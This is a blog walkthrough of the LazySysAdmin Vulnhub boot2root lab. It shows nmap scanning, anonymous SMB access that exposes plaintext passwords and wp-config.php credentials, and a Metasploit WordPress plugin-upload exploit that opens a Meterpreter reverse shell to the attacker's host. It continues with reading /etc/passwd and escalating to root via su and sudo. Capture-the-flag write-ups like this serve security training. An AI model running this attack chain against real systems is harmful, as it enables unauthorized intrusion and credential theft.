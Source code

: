 ```yaml
---
date: 2020-04-27 03:43:30
layout: post
title: "LazySysAdmin Vulnhub Walkthrough"
subtitle:
description: Today we will be doing LazySysAdmin from Vulnhub. An easy boot2root machine configured by a lazy system administrator.
image: /assets/img/uploads/lazySysAdmin/lazy.jpg
optimized_image: /assets/img/uploads/lazySysAdmin/lazy.jpg
category: walkthrough
tags: vulnhub boot2root
author: madhavmehndiratta
paginate: false
keywords: lazysysadmin walkthrough, vulnhub, lazysysadmin writeup, lazysysadmin vulnhub walkthrough, infosec articles
---
```


Today we will be doing LazySysAdmin from Vulnhub. An easy boot2root machine created by 'Togie Mcdogie'. The machine truly stands up to its name. This machine was configured by a lazy system administrator and thus, one clear thing to be looking for is a misconfigured system. Lets dive in!

We begin our reconnaissance by running a port scan with Nmap, checking default scripts.

```r
m1m3@kali:~$ nmap -sV -sV -oA nmap/lazySysAdmin 192.168.1.9 

Starting Nmap 7.80 ( https://nmap.org )
Nmap scan report for 192.168.1.9
Host is up (0.0044s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http        Apache httpd 2.4.7 ((Ubuntu))
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3306/tcp open  mysql       MySQL (unauthorized)
6667/tcp open  irc         InspIRCd
Service Info: Hosts: LAZYSYSADMIN, Admin.local; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.93 seconds
```

We see a mysql port open and Samba smd running on port 139 and 445. We also have a webserver running at port 80.

<center><br>
<img src="/assets/img/uploads/lazySysAdmin/port80.png">
</center>

Let's try gaining access to the samba and see if we can login anonymously. We will use <i>smbclient</i> for this. If it asks for any password, just leave it empty and press enter.

```r
m1m3@kali:~$ smbclient -L 192.168.1.9

Enter WORKGROUP\m1m3's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        share$          Disk      Sumshare
        IPC$            IPC       IPC Service (Web server)
SMB1 disabled -- no workgroup available
```

We can access the share$ folder using: 

```r
m1m3@kali:~$ smbclient  '\\192.168.1.9\share$'

Enter WORKGROUP\m1m3's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Aug 15 16:35:52 2017
  ..                                  D        0  Mon Aug 14 18:04:47 2017
  wordpress                           D        0  Thu Apr 30 00:15:04 2020
  Backnode_files                      D        0  Mon Aug 14 17:38:26 2017
  wp                                  D        0  Tue Aug 15 16:21:23 2017
  deets.txt                           N      139  Mon Aug 14 17:50:05 2017
  robots.txt                          N       92  Mon Aug 14 18:06:14 2017
  todolist.txt                        N       79  Mon Aug 14 18:09:56 2017
  apache                              D        0  Mon Aug 14 18:05:19 2017
  index.html                          N    36072  Sun Aug  6 10:32:15 2017
  info.php                            N       20  Tue Aug 15 16:25:19 2017
  test                                D        0  Mon Aug 14 18:05:10 2017
  old                                 D        0  Mon Aug 14 18:05:13 2017

                3029776 blocks of size 1024. 1459952 blocks available          
smb: \> 
```

We see some interesting test files here, let's download them and see if they have anything useful.

```r
smb: \> get deets.txt
getting file \deets.txt of size 139 as deets.txt (0.7 KiloBytes/sec) (average 0.7 KiloBytes/sec)
smb: \> get todolist.txt
getting file \todolist.txt of size 79 as todolist.txt (12.9 KiloBytes/sec) (average 1.5 KiloBytes/sec)
smb: \> ^C

m1m3@kali:~$ cat deets.txt 
CBF Remembering all these passwords.

Remember to remove this file and update your password after we push out the server.

Password 12345

m1m3@kali:~$ cat todolist.txt 
Prevent users from being able to view to web root using the local file browser
m1m3@kali:~$ 
[1] 0:bash*                                                                                               
```

Awesome! <i>deets.txt</i> reveals a password 12345. Another thing now we can look at is the wordpress directory.

```r
smb: \> cd wordpress
smb: \wordpress\> ls
  .                                   D        0  Thu Apr 25 00:15:04 2020
  ..                                  D        0  Tue Aug 15 16:35:52 2017
  wp-config-sample.php                N     2853  Wed Dec 16 15:28:26 2015
  wp-trackback.php                    N     4513  Sat Oct 15 01:09:28 2016
  wp-admin                            D        0  Thu Aug  3 02:32:02 2017
  wp-settings.php                     N    16200  Thu Apr  6 23:31:42 2017
  wp-blog-header.php                  N      364  Sat Dec 19 16:50:28 2015
  index.php                           N      418  Wed Sep 25 05:48:11 2013
  wp-cron.php                         N     3286  Sun May 24 22:56:25 2015
  wp-links-opml.php                   N     2422  Mon Nov 21 08:16:30 2016
  readme.html                         N     7413  Mon Dec 12 13:31:39 2016
  wp-signup.php                       N    29924  Tue Jan 24 16:38:42 2017
  wp-content                          D        0  Thu Apr 30 00:31:17 2020
  license.txt                         N    19935  Mon Jan  2 23:28:42 2017
  wp-mail.php                         N     8048  Wed Jan 11 10:43:43 2017
  wp-activate.php                     N     5447  Wed Sep 28 03:06:28 2016
  .htaccess                           H       35  Tue Aug 15 17:10:13 2017
  xmlrpc.php                          N     3065  Wed Aug 31 22:01:29 2016
  wp-login.php                        N    34327  Fri May 12 22:42:46 2017
  wp-load.php                         N     3301  Tue Oct 25 08:45:30 2016
  wp-comments-post.php                N     1627  Mon Aug 29 17:30:32 2016
  wp-config.php                       N     3703  Mon Aug 21 14:55:14 2017
  wp-includes                         D        0  Thu Aug  3 02:32:03 2017

                3029776 blocks of size 1024. 1459952 blocks available          
smb: \wordpress\> 
```
 Looking into the wp-config, we get some username and password.

```r
 /** MySQL database username */
define('DB_USER', 'Admin');

/** MySQL database password */
define('DB_PASSWORD', 'TogieMYSQL12345^^');
```

We can use these to login into the wp-admin

<center><br>
<img src="/assets/img/uploads/lazySysAdmin/wordpress.png">
</center>

Now that we are successfully logged in, we can upload a payload packaged as a WordPress plugin. We can use metasploit here to exploit the server.

```r
msf5 > use exploit/unix/webapp/wp_admin_shell_upload 
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set RHOSTS 192.168.1.9
RHOSTS => 192.168.1.9
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set TARGETURI /wordpress
TARGETURI => /wordpress
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set USERNAME admin
USERNAME => admin
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set PASSWORD TogieMYSQL12345^^
PASSWORD => TogieMYSQL12345^^
msf5 exploit(unix/webapp/wp_admin_shell_upload) > exploit

[*] Started reverse TCP handler on 192.168.1.12:4444 
[*] Authenticating with WordPress using admin:TogieMYSQL12345^^...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload...
[*] Executing the payload at /wordpress/wp-content/plugins/nqVodSMHuP/rimGsZTjkk.php...
[*] Sending stage (38288 bytes) to 192.168.1.9
[*] Meterpreter session 1 opened (192.168.1.12:4444 -> 192.168.1.9:45938)
[+] Deleted rimGsZTjkk.php
[+] Deleted nqVodSMHuP.php
[+] Deleted ../nqVodSMHuP

meterpreter > shell
Process 1697 created.
Channel 0 created.
id       
uid=33(www-data) gid=33(www-data) groups=33(www-data)
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@LazySysAdmin:$
```

Looking into the /etc/passwd, we can see a user named  <i>togie</i>

```r
www-data@LazySysAdmin:$ cat /etc/passwd
cat /etc/passwd

togie:x:1000:1000:togie,,,:/home/togie:/bin/rbash

www-data@LazySysAdmin:$ 
```

This will be our way In!  We can now ssh into the user or simply use <i>su</i> to login with the password we got from <i>deets.txt.</i> 

```r
www-data@LazySysAdmin:$ su togie
su togie
Password: 12345
togie@LazySysAdmin:$ id
id
uid=1000(togie) gid=1000(togie) groups=1000(togie),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lpadmin),111(sambashare)
togie@LazySysAdmin:$ 
```

We can see that the user is added in the <i>sudoers</i> group. Therefore we can directly run <i>sudo su </i> to get the root shell.

```r
togie@LazySysAdmin:$ sudo su
sudo su
[sudo] password for togie: 12345

root@LazySysAdmin:.# 
```

That's it! We rooted the box. Now we can read our flag.

```r
root@LazySysAdmin:.# cat /root/proof.txt/
cat /root/proof.txt
WX6k7NJtA8gfk*w5J3&T@*Ga6!0o5UP89hMVEQ#PT9851


Well done :)

Hope you learn't a few things along the way.

Regards,

Togie Mcdogie




Enjoy some random strings

WX6k7NJtA8gfk*w5J3&T@*Ga6!0o5UP89hMVEQ#PT9851
2d2v#X6x9%D6!DDf4xC1ds6YdOEjug3otDmc1$#slTET7
pf%&1nRpaj^68ZeV2St9GkdoDkj48Fl$MI97Zt2nebt02
bhO!5Je65B6Z0bhZhQ3W64wL65wonnQ$@yw%Zhy0U19pu

root@LazySysAdmin:.# 
```

That’s it! Thanks for reading. Stay tuned for similar walkthroughs and much more coming up in the near future!
If you have any queries, you can contact me <a href="/contact">here.</a>

NOTE: The awesome artwork used in this article was created by <a href="https://dribbble.com/Jothon">Joshua Anderson.</a>